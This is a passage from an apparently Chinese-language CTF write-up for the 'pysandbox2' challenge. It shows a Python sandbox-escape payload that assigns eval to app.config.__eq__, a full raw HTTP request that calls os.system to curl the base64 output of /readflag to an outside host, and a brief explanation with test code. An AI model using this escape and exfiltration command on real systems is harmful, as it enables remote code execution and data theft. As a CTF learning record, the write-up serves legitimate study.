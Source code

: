 ```
request.args.__class__.__getattr__=request.args.__class__.__getitem__;app.config.__class__.__eq__=eval;app.config==request.args.a;
------WebKitFormBoundaryx3B8HB5b--
```

### pysandbox2

payload:

```
POST /?a=__import__('os').system('curl+http%3a//ccreater.top%3a60000/+-d+`/readflag|base64`') HTTP/1.1
Host: 39.104.90.30:10006
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://39.104.90.30:10006/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx3B8HB5b
Content-Length: 248

------WebKitFormBoundaryx3B8HB5b
Content-Disposition: form-data; name="cmd"

request.args.__class__.__getattr__=request.args.__class__.__getitem__;app.config.__class__.__eq__=eval;app.config==request.args.a;
------WebKitFormBoundaryx3B8HB5b--

```



### 为何payload能运行



我们都知道python 调用类方法的时候会传入`self`参数，而我们调用`app.config==request.args.a`应该也会传入self参数，那么为什么这个payload可以成功

测试代码



```python
class A():
	pass
a = A()
a.__class__.__eq__=eval
a=="print(123)"

```


